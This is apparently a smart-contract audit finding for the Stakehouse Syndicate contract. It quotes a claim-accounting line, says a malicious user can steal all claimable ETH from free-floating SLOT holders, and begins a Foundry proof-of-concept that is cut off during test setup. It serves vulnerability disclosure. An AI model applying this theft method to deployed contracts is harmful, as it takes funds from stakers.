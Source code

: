 [Syndicate.sol#L228](https://github.com/code-423n4/2022-11-stakehouse/blob/39a3a84615725b7b2ce296861352117793e4c853/contracts/syndicate/Syndicate.sol#L228)
```solidity
    sETHUserClaimForKnot[_blsPubKey][_onBehalfOf] = (_sETHAmount * accumulatedETHPerFreeFloatingShare) / PRECISION;
```
### Impact

A malicious user can steal all claimable ETH belonging to free floating SLOT holders...
### Proof of Concept

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import { console } from "forge-std/console.sol";
import { MockERC20 } from "../../contracts/testing/MockERC20.sol";
import { SyndicateMock } from "../../contracts/testing/syndicate/SyndicateMock.sol";
import { MockAccountManager } from "../../contracts/testing/stakehouse/MockAccountManager.sol";
import { MockTransactionRouter } from "../../contracts/testing/stakehouse/MockTransactionRouter.sol";
import { MockSlotRegistry } from "../../contracts/testing/stakehouse/MockSlotRegistry.sol";
import { MockStakeHouseUniverse } from "../../contracts/testing/stakehouse/MockStakeHouseUniverse.sol";
import { SyndicateFactoryMock } from "../../contracts/testing/syndicate/SyndicateFactoryMock.sol";
import {
    KnotIsFullyStakedWithFreeFloatingSlotTokens,
    KnotIsAlreadyRegistered
} from "../../contracts/syndicate/SyndicateErrors.sol";
import { TestUtils } from "../utils/TestUtils.sol";

contract SyndicateTest is TestUtils {
    MockERC20 public sETH;
    SyndicateFactoryMock public syndicateFactory;
    SyndicateMock public syndicate;
    function blsPubKeyOneAsArray() public view returns (bytes[] memory) {
        bytes[] memory keys = new bytes[](1);
        keys[0] = blsPubKeyOne;
        return keys;
    }
    function sendEIP1559RewardsToSyndicate(uint256 eip1559Reward) public {
        (bool success, ) = address(syndicate).call{value: eip1559Reward}("");
        assertEq(success, true);
    }
    function setUp() public {
        // Deploy an sETH token for an arbitrary stakehouse
        sETH = new MockERC20("sETH", "sETH", accountOne);
        // Deploy the syndicate but no priority stakers are required
        address[] memory priorityStakers = new address[](0);
        // Create and inject mock stakehouse dependencies
        address accountMan = address(new MockAccountManager());
        address txRouter = address(new MockTransactionRouter());
        address uni = address(new MockStakeHouseUniverse());
        address slot = address(new MockSlotRegistry());
        syndicateFactory = new SyndicateFactoryMock(
            accountMan,
            txRouter,
            uni,
            slot
        );
        address payable _syndicate = payable(syndicateFactory.deployMockSyndicate(
            admin,
            0, // No priority staking block
            priorityStakers,
```